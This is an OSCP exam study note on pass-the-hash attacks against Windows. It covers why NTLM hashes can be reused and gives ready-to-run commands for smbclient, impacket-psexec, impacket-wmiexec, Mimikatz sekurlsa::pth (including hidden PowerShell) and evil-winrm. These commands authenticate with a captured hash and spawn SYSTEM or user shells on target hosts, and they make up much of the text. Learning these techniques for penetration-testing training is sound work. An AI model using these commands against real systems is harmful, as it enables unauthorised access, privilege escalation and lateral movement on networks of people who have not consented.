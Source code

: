 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/h-password-attacks/6-pass-the-hash/","updated":"2024-01-05T11:34:57.800+01:00"}
---
```


- PtH is a techique where a valid combination of username and a NTLM hash will authenticate a user. This is without a plaintext password.
- It is possible because NTLM/LM hashes are not salted and remain static between sessions.
- They can even be used to authenticate to another machine with the same user and password.
- Note: The targeted user most often needs to be Administrator, or be configured in a certain way to obtain successful code execution. This is a thing since Windows Vista.
- PtH can be performed against protocols that support authentication with NTLM hashes, such as: SMB, RDP, WinRM.
- Tools which can perform PtH include: smbclient, CrackMapExec, psexec.py (Impacket), and Mimikatz.

------------

### PtH Attack with SMBClient:
```bash
smbclient \\\\192.168.X.X\\secrets -U Administrator --pw-nt-hash <hash>
```

------------

### PtH NT_AUTHORITY Shell with PSExec:
- PSExec searches for a writable share and uploads an executable to it. The executable then registers as a Windows service and starts running, resulting in a shell always as SYSTEM.
- If not command is specified to be run in the end a cmd-shell will spawn instead.
- Hash arguments are read as LMHash:NTHash. If only one of them is used fill the other with 32 0's.
- Example which will spawn a shell from a NTLM hash:
```powershell
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

----------
### PtH User Shell with WMIExec:
- Obtains a shell as the user used for authentication and not SYSTEM.
- Example:
```powershell
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

------------
### PtH with Mimikatz:
```
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell -w hidden”

Alt.
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:…
.\PsExec.exe \\172.23.1.100 cmd.exe
```

-------------
### PtH with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -H <ntlm-hash>
```